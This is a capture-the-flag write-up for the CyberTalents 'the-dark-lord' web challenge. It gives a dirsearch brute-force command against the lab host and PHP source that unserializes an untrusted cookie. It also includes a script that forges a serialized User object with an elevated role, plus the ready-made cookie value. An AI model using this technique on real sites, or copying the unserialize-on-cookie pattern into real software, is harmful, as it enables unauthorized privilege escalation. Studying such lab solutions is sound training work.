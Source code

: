 # Solve the-dark-lord
#### https://cybertalents.com/challenges/web/the-dark-lord

![alt text](image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m7qyz8dru9zwpj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

Scan source.php
```php
 <?php

Class User
{
    private $role = "Guest";

    public function GetInfo()
    {
        include("titles.php");

        if($this->role === "Voldemort")
        {
            return $Title_A;
        }
        else
        {
            return $Title_B;
        }
    }

}
?>
<?php
    include("user.php");

    if(isset($_COOKIE["user"]))
    {
        $user = unserialize(base64_decode($_COOKIE["user"]));
    }
    else
    {
        $user = new User();
    }

?>
```
Run the php code to get the user cookie value
```php
<?php

class User
{
    private $role = "Voldemort";

    public function GetInfo()
    {
        include("titles.php");

        if($this->role === "Voldemort")
        {
            return $Title_A;
        }
        else
        {
            return $Title_B;
        }
    }

}

$user = new User();

$value = base64_encode(serialize($user));

echo $value;
```

value : `Tzo0OiJVc2VyIjoxOntzOjEwOiIAVXNlcgByb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ==`
Which is also equals to `O:4:"User":1:{s:10:"Userrole";s:9:"Voldemort";}`

Add the `user` cookie with it's value 
![alt text](image-1.png)

>Find More on ==> github.com/MedhatHassan 

